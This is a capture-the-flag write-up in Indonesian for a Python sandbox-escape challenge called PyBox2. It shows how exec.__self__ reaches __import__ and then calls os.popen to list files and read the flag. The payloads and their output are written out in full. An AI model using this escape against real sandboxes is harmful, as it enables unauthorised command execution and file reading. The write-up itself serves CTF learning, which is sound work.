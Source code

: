 <H1>PyBox2</H1>
<H5>Tools: Terminal, bpython</H5>
Untuk menyelesaikan masalah ini kita harus mempelejari atau mencari tahu method atau attributes dari class compile atau exec. Seperti yang sudah di berikan di hint kita bisa menggunakan 

```python
compile.__self__
```
atau

```python
exec.__self__
```
dengan menggunakan bpython sebuah command lines tools terminal untuk python interactive, saya mencoba untuk mengetahui method dati class `exec`. Kita bisa mencari tahu dengan function `dir()`. seperti ini
```python
>>> dir(exec.__self__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'C
onnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EncodingWarning', 'EnvironmentError', 'Exception', 'False', 'FileExistsError'
, 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryEr
ror', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'Ove
rflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration
', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeErro
r', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '__build_class__', '__debug__', '__doc__', '__import__', '__loader_
_', '__name__', '__package__', '__spec__', 'abs', 'aiter', 'all', 'anext', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'com
plex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'hel
p', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'pri
nt', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```
dari banyaknya method dari `exec.__self__` saya memilih untuk memakai yang paling sering saya gunakan dalam ctf yaitu `__import__`. dengan begitu payload pertama akan menjadi seperti ini
```python
exec.__self__.__import__("os").popen("ls").read()
```
payload di atas bisa di baca juga seperti ini
```python
import os
#code dibawah akan execute ls dan menjadikan output nya string
os.popen("ls").read
```
output dari code diatas adalah
```bash
Dockerfile
README.md
flag.txt
logo
main.py
makefile
payload
solve.py
```
dengan begitu kita tinggal execute `cat` untuk membaca flag.txt
```python
exec.__self__.__import__("os").popen("cat flag.txt").read()
```
dengan output:
```
TCP1P{******************************_get__import__}
```
note:* hanya untuk menutupi full flag
opini: menurut saya gunanya `__self__` adalah untuk meng-akses class yang ada di dalam scope mirip penggunaan `this` dalam javascript